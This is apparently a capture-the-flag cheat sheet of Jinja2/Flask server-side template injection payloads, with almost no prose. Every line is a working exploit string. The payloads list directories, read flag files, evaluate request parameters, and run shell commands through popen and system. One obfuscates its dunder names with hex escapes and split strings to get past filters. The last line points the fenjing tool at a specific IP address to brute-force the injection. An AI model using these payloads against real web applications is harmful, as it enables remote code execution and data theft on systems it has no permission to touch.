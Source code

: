 {{ get_flashed_messages.__globals__.__builtins__.__import__("os").listdir() }}
{{ get_flashed_messages.__globals__.__builtins__.open("flag-61150e68b7.txt").read() }}
name={{get_flashed_messages['__built''ins__'].eval(request.values['a'])}}&a=__import__('os').popen('cat flag.txt').read()
{{().__class__.__base__.__subclasses__().__getitem__(107).load_module(request.args.a).popen(request.args.b).read()}}?a=os&b=cat+/flag.txt
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('id')|attr('read')()}}
{{url_for.__globals__.os.__dict__.popen(request.args.a).read()}}?a=cat%20/flag.txt
{{url_for.__globals__.os.__dict__.system('ls').read()}}
python3 -m fenjing crack --url 'http://34.124.244.195:1338/' --method GET --inputs "c" #using tool to bruteforce ssti
